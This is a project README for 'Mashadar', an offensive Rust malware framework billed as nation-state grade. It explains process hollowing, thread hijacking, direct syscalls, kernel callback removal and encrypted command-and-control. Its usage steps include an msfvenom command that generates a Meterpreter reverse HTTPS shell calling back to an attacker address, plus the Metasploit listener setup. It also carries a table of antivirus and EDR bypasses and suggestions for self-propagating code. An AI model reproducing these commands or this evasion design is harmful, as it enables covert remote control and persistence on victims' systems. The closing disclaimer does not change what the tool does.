




# 🖤 Mashadar – The Ultimate Nation-State Malware Framework

_"There is something worse than the Shadow. Worse than Darkfriends and Forsaken."_  
_"It does not serve the Dark One. It kills everything."_

## 🚀 Overview
**Mashadar** is a **stealthy, in-memory malware framework** designed for **nation-state level evasion**.  
It implements **process hollowing, reflective thread hijacking, direct syscalls, kernel callback removal, and AES-encrypted C2 communications** to maximize stealth.

✅ **No files written to disk**  
✅ **Executes inside legitimate processes**  
✅ **Bypasses AV/EDR detection with direct syscalls**  
✅ **Encrypted C2 for payload delivery**  
✅ **Ideal for red teaming & advanced adversary simulation**  

---

## 📂 Project Structure

```plaintext
mashadar/
│── src/
│   ├── main.rs          # Entry point (Process Hollowing + Execution)
│   ├── hollowing.rs     # Process Hollowing via NtUnmapViewOfSection
│   ├── syscalls.rs      # Direct Syscalls (EDR Bypass)
│   ├── encryption.rs    # AES Shellcode Encryption (Pre-Execution)
│   ├── stealth.rs       # Kernel Callback Removal + Anti-Debugging
│   ├── c2.rs            # Encrypted Command & Control (C2) Comms
│── shellcode/
│   ├── payload.bin      # Encrypted shellcode (Cobalt Strike, Meterpreter, etc.)
│── README.md
│── Cargo.toml           # Rust dependencies
```

---

## 🔥 **Execution Flow**
Mashadar follows a **multi-stage attack process**. Below is a high-level **Mermaid.js sequence diagram** of its execution:



---

## 🏗️ **Installation & Setup**

### **1️⃣ Install Rust**
```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### **2️⃣ Clone the Repository**
```sh
git clone https://github.com/yourname/mashadar.git
cd mashadar
```

### **3️⃣ Install Dependencies**
```sh
cargo build --release
```

---

## 💀 **How Mashadar Works**
Mashadar executes shellcode stealthily using **three core techniques**:

### **🔹 1. Process Hollowing**
- **Creates a legitimate process (e.g., svchost.exe)**
- **Unmaps its memory using `NtUnmapViewOfSection`**
- **Injects shellcode into the hollowed process**
- **Resumes execution with malicious payload**



---

### **🔹 2. Reflective Thread Hijacking**
Instead of creating a new thread (which triggers AV alerts), Mashadar:
1. **Suspends an existing thread** in a running process.
2. **Overwrites the instruction pointer (RIP) to point to shellcode**.
3. **Resumes execution**—seamlessly hijacking the process.



---

### **🔹 3. Encrypted C2 Communication**
- Uses **AES encryption** to fetch payloads.
- Ensures **network traffic looks benign**.
- **Prevents signature-based detection** of raw shellcode transfers.



---

## 🔑 **Usage Instructions**
### **📝 Step 1: Encrypt Shellcode**
Before running Mashadar, encrypt your payload:

```sh
python -c "import os; os.system('msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f raw -o shellcode/payload.bin')"
```

### **🚀 Step 2: Run Mashadar**
```sh
cargo run --release
```

### **📡 Step 3: Receive Connection**
If using a **Metasploit C2**, start a listener:
```sh
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443
run
```

---

## 🔍 **Detection & Evasion**
### **🛡️ How Mashadar Bypasses AV/EDR**
| **Detection Technique**         | **Bypass Method**                         |
|---------------------------------|------------------------------------------|
| Signature-based detection       | Polymorphic encryption & AES shellcode  |
| Behavior-based heuristics       | Reflective thread hijacking             |
| API Hooking (EDR Monitoring)    | Direct Syscalls (No `ntdll.dll` hooks)  |
| Process creation monitoring     | Process Hollowing                       |
| Network-based detection         | AES-encrypted C2 traffic                |

---

## 🛠️ **Feature Breakdown**
### **Reflective Thread Hijacking**
✅ **No new threads created**  
✅ **Executes within an existing process**  
✅ **Evades behavioral heuristics**  

### **Process Hollowing**
✅ **Completely replaces a target process (e.g., `svchost.exe`)**  
✅ **Executes shellcode inside a legitimate Windows process**  
✅ **Avoids new process creation detection**  

### **Direct Syscalls**
✅ **Avoids `ntdll.dll` hooks from EDR**  
✅ **Calls Windows APIs directly from memory**  
✅ **Bypasses common AV detections**  

### **Kernel Callback Removal**
✅ **Disables forensic monitoring**  
✅ **Prevents process execution tracking**  

### **AES-Encrypted C2**
✅ **All network traffic is AES-encrypted**  
✅ **Payload updates received via secure channel**  

---

## **📌 Next Steps**
Want to take it **even further**?
- **Kernel Exploits** – Inject into **Ring 0** for full system compromise.
- **Secure Boot Bypass** – **Own the machine before the OS starts.**
- **Hypervisor Malware** – Run undetected **below the OS**.
- **Self-Propagating Code** – Fully autonomous replication **across networks**.

---

## **⚠️ Legal Disclaimer**
This framework is for **research and educational purposes only.**  
Do **not** use for unauthorized access or malicious activities.  